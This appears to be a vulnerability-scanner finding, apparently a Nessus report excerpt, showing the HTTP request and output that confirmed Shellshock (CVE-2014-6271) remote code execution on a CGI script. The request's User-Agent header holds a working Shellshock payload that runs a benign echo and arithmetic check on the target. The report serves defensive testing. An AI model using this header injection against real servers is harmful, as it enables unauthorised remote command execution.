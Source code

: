

Nessus was able to exploit the issue using the following request:

GET /cgi-bin/search.cgi HTTP/1.1
Host: 192.168.176.155
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Accept-Language: en
Connection: Close
User-Agent: () { ignored; }; echo Content-Type: text/plain ; echo ; echo "bash_cve_2014_6271_rce Output : $((4+97))"
Pragma: no-cache
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*




This produced the following truncated output (limited to 2 lines) :
------------------------------ snip ------------------------------
bash_cve_2014_6271_rce Output : 101

------------------------------ snip ------------------------------
